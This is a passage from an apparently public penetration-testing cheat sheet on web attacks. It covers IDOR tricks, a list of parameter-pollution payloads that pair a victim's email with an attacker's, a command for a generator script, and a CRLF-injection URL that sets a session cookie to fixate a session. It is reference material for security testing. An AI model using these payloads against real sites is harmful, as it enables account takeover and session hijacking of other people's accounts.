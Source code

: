 | -d | Use post data |
| -H | Use header |
| --hc/--hl/--hw/--hh | Hide responses with the specified code/lines/words/chars |
| --sc/--sl/--sw/--sh| Show responses with the specified code/lines/words/chars |
| --ss/--hs| Show/hide responses with the specified regex within the content |

### Insecure Direct Object Reference (IDOR)

First, try to simply change one value to another, e.g., change `victim@gmail.com` to `hacker@gmail.com`, change some ID from `1` to `2`, etc.

It is likely that lower number IDs will relate to some higher privilege accounts or roles.

Second, try parameter pollution:

```fundamental
"email":"hacker@gmail.com,victim@gmail.com"
"email":"hacker@gmail.com victim@gmail.com"
"email":"hacker@gmail.com","email":"victim@gmail.com"
"email":"victim@gmail.com,hacker@gmail.com"
"email":"victim@gmail.com hacker@gmail.com"
"email":"victim@gmail.com","email":"hacker@gmail.com"
"email":("hacker@gmail.com","victim@gmail.com")
"email":["hacker@gmail.com","victim@gmail.com"]
"email":{"hacker@gmail.com","victim@gmail.com"}
"email":("victim@gmail.com","hacker@gmail.com")
"email":["victim@gmail.com","hacker@gmail.com"]
"email":{"victim@gmail.com","hacker@gmail.com"}
email=hacker%40gmail.com,victim%40gmail.com
email=hacker%40gmail.com%20victim%40gmail.com
email=hacker%40gmail.com&email=victim%40gmail.com
email[]=hacker%40gmail.com&email[]=victim%40gmail.com
email=victim%40gmail.com,hacker%40gmail.com
email=victim%40gmail.com%20hacker%40gmail.com
email=victim%40gmail.com&email=hacker%40gmail.com
email[]=victim%40gmail.com&email[]=hacker%40gmail.com
```

To generate the above output, run [param_pollution.py](https://github.com/ivan-sincek/penetration-testing-cheat-sheet/blob/master/scripts/param_pollution.py):

```fundamental
python3 param_pollution.py -n email -i victim@gmail.com -t hacker@gmail.com
```

### HTTP Response Splitting

Also known as CRLF injection. CRLF refers to carriage return (`ASCII 13`, `\r`) and line feed (`ASCII 10`, `\n`).

When encoded, `\r` refers to `%0D` and `\n` refers to `%0A`.

Fixate a session cookie:

```fundamental
somesite.com/redirect.asp?origin=somesite.com%0D%0ASet-Cookie:%20ASPSESSION=123456789
```
